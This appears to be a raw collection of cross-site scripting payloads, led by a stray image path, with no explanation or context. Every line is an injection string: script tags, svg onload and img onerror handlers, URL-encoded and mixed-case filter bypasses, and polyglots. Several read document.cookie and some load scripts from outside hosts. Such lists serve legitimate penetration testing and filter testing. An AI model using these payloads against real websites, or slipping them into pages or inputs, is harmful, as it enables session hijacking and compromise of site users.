 </scrip</script>t><img src =q onerror=prompt(8)>
</Textarea/</Noscript/</Pre/</Xmp><Svg/Onload=confirm(document.domain)>”<script/src=//15.rs></script><script src=//⑮.₨></script> *
<--`<img/src=` onerror=alert(1)> --!>
</script><svg onload=alert(1)>
'+ '</b><script>alert(document.cookie)</script><b> <img src=xxx:x onerror=javascript:alert(1)> -->
<img src=x onerror=javascript:alert(/AmoloHT/)//">
</ foo="><script>javascript:alert(1)</script>">
%0d%0a%20"><svg onload=alert(1)>
%E5%98%8D%E5%98%8A%20"><svg onload=alert(1)>
<img/src/onerror=setTimeout(atob(/YWxlcnQoMTMzNyk/.source))>
<svg onload=alert(1)-->.php
</script><svg/onload=alert(0)>
//?aspxerrorpath=<script>alert(1)</script>
%22%3E%3Cimg%20src=x%20onerror=prompt(document.domain);%3E
"><img src=x onerrora=confirm() onerror=confirm(1)>
'></script><svg/onload=alert(document.cookie)>
<image/src/onerror=prompt(8)>
/me/m%3C/script%3E%3Csvg/onload=prompt(document.domain)%3E
<img src=/ onerror=alert(1)>
<script ~~~>alert(0%0)</script ~~~>
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
%20"><img src=x onerror=prompt(document.domain);>
xyz';"/></textarea><Img Src=OnXSS OnError=prompt(document.cookie)>
<svg><animate onbegin=alert(1) attributeName=x dur=1s>
<! foo="[[[Inception]]"><x foo="]foo><script>javascript:alert(1)</script>">
<img src=1 alt=al lang=ert onerror=top[alt+lang](0)>
%20<img src=1 onerror=alert(1)>
%3CSVG/oNlY=1%20ONlOAD=confirm(document.domain)%3E
"/><svg/onload=prompt(1)>
x"><x a="><script>alert(1)</script>
}}}</script><script>alert(1)</script>
12&<script>alert(123)</script>=123
<ScRiPt>alert(1)</sCriPt>
<div>jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e</div>
<svg onx=() onload=(confirm)(document.cookie)>
<script>confirm/**/()/**/</script>
/"><img src=y onerror=confirm(1)>
%3F%20"><img src=x onerror=prompt(document.domain);>
"><img src=x ONERROR=prompt(document.domain);>
<svg onload=alert(document.domain)>
<script>prompt(1234)</script>
<img/src/onerror=prompt(8)>
 ;alert(String.fromCharCode(88,83,83))// ></SCRIPT> > ><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>
<audio src/onerror=alert(1)>
>'>"><script>alert();</script>
(xss"><svg/onload=alert(document.domain)>)
';alert(String.fromCharCode(88,83,83))//';alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode (88,83,83))//";alert(String.fromCharCode(88,83,83))//-- ></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83)) </SCRIPT>
<audio src=1 onerror=alert(1)>
